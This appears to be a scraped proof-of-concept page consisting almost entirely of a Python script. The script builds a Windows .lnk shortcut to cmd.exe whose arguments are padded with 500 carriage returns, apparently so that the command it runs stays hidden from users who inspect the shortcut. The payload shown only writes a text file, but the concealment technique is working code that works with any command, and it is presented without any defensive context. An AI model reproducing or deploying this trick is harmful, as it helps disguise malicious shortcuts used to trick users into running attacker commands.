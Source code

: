 # poc

from win32com.client import Dispatch

```python
shell = Dispatch("WScript.Shell")
shortcut = shell.CreateShortcut(r"c:/windows/temp/1.lnk")
shortcut.TargetPath = '%windir%\SysWow64\cmd.exe'
shortcut.WorkingDirectory = "c:/windows/temp/"
shortcut.Arguments = '\r'*500+'/c "echo 111> 1.txt"'
shortcut.save()
```
